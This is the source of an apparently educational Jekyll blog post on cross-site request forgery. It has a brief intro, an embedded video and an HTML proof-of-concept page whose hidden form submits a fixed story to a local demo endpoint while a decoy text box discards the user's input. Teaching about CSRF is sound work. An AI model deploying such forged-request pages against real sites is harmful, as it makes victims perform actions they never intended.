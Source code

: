 ```yaml
---
layout: post
title: Cross-site Request Forgery
subtitle: Week 20
tags: [CSRF, exploit]
---
```


XSS is a popular, and well-known vulnerability. CSRF is less common but just as dangerous, particularly because of the lack of awareness.

<center>
<iframe width="560" height="315" src="https://www.youtube.com/embed/vRBihr41JTo" frameborder="0" allow="autoplay; encrypted-media" allowfullscreen></iframe>
</center>

{% highlight html linenos %}

<!doctype html>

<head>
  <title>Feels</title>
</head>

<body>
  <h1>How are you?</h1>
  <input type="textarea" />
  <!--
  notice how this text area is not a child of the form below.
  we don't care about the user's input, it is discarded.
  -->
  <form action="http://talk.local/create_story">
    <input type="hidden" name="my_story" value="i feel very small, please hold me closer..." />
    <input type="submit" />
  </form>
</body>

{% endhighlight %}
